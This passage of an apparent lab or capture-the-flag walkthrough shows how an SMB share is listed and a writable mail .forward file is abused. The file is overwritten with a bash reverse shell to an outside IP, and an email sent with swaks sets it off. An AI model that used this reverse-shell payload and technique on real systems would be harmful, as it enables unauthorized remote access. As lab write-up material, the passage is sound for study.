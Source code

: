 But I couldn't make sense of any of those. Let's check the `fox` share next:

```
$ smbclient -U fox //192.168.157.157/fox   
Password for [WORKGROUP\fox]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 14 14:11:46 2023
  ..                                  D        0  Sat Jan  9 02:04:11 2021
  .bashrc                             H     3526  Fri Dec 18 15:48:44 2020
  .Xauthority                         H       53  Tue Aug 10 05:55:45 2021
  .bash_history                       H        0  Tue Jul  4 04:15:25 2023
  .profile                            H      807  Fri Dec 18 15:48:44 2020
  local.txt                           N       33  Fri Jul 14 13:51:10 2023
  .local                             DH        0  Tue Aug 24 18:20:56 2021
  .dosbox                            DH        0  Tue Aug 10 05:55:54 2021
  .bash_logout                        H      220  Fri Dec 18 15:48:44 2020
  .gnupg                             DH        0  Tue Aug 10 05:40:39 2021
  .forward                           AH       25  Tue Aug 24 18:23:05 2021
```

There's an interesting folder called `.forward` present.&#x20;

```
$ cat .forward                                                                 
 | /usr/bin/procmail -f-
```

I read more about this file here:

{% embed url="https://www.linux.com/news/process-your-email-procmail/" %}

Whenever the user receives mail, this output of the mail is piped to this binary. Since we have write access over the `fox` share, we can replace this with our own reverse shell.

```bash
 | bash -c 'bash -i >& /dev/tcp/192.168.45.227/80 0>&1'
```

Then, replace the `.forward` file in the share and send `fox@localhost` an email via `swaks`:

{% code overflow="wrap" %}
```
$ swaks --to fox@localhost --from test@localhost --header "Subject:Password Reset" --body "yo" --server 192.168.157.157
```
{% endcode %}

This would give us a reverse shell:

<figure><img src="../../../.gitbook/assets/image (38) (1).png" alt=""><figcaption></figcaption></figure>
